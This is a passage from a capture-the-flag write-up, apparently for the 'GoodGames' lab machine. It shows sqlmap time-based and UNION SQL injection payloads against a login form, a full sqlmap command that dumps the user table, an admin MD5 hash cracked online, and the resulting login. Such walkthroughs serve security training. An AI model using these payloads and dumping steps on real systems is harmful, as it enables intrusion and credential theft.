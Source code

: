 ``` sql
    Payload: email=test@gmail.com' AND (SELECT 7414 FROM (SELECT(SLEEP(5)))yOWp)-- sdlr&password=test

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=test@gmail.com' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716a787071,0x4e5a62544f6d427a58487362544646664f4e766361584b755948474e6a63426d494f474b744c736d,0x716b707171)-- -&password=test
---
[21:45:25] [INFO] testing MySQL
[21:45:26] [INFO] confirming MySQL
[21:45:26] [INFO] the back-end DBMS is MySQL
[21:45:26] [INFO] fetching banner
[21:45:27] [INFO] executing MySQL comment injection fingerprint
back-end DBMS: active fingerprint: MySQL >= 8.0.0
               comment injection fingerprint: MySQL 8.0.27
banner: '8.0.27'
[21:45:27] [INFO] fetched data logged to text files under '/home/sohee/.local/share/sqlmap/output/goodgames.htb'

[*] ending @ 21:45:27 /2023-03-22/

```
The `sqlmap` attack was successful. To then access the database, I passed the `--dump` flag to the same command like so: 
``` shell
sqlmap -u 'http://goodgames.htb/login' --data="email=test@gmail.com&password=test" --level 5 --risk 3 -f --banner │ --ignore-code 401 --dump
```
``` sql
Database: main
Table: user
[1 entry]
+----+-------+---------------------+----------------------------------+
| id | name  | email               | password                         |
+----+-------+---------------------+----------------------------------+
| 1  | admin | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+----+-------+---------------------+----------------------------------+
```
Creds <3 But I noticed the password was hashed, although it was just a simple MD5 hash. One could pass this hash into a hash cracker like CyberChef and used the "Magic" option to discover the type of hash, but I was able to recognize it and passed it into Crackstation.

![]({{ image_path }}{{ page.name }}/crackstation.png)

## Initial Access
Using these creds, I logged in to the login page I attacked. After clicking around the new portal, I noticed that one of the links (the gear icon) took me to a new vhost: `internal-administration.goodgames.htb`.

![]({{ image_path }}{{ page.name }}/gearicon.png) 
